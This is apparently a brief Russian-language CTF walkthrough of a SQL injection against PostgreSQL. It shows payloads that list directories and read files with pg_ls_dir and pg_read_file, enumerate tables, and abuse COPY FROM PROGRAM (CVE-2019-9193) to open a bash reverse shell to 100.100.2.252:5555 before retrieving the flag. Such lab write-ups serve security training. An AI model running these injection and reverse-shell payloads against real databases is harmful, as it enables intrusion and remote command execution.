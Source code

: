 
Получим версию БД
![](../../attachment/Pasted%20image%2020250417174551.png)

```
';SELECT pg_ls_dir('/'); -- - Изучаем директории
pg_read_file изучаем файл (не бинарный,в стандартной кодировке)
```

Находим CVE-2019-9193, которая позволяет с помощью COPY передать команду 
Попытки создать таблицу были неуспешны, попробуем применить к имеющимся таблицам 
'; SELECT * FROM  pg_catalog.pg_tables;-- -

![](../../attachment/Pasted%20image%2020250421121526.png)
Воспользуемся COPY к первой найденной таблице blogs
';COPY blogs FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/100.100.2.252/5555 0>&1\"';-- -

![](../../attachment/Pasted%20image%2020250421121622.png)

Получаем соединение и запускаем get_flag для получения флага 
![](../../attachment/Pasted%20image%2020250421121308.png)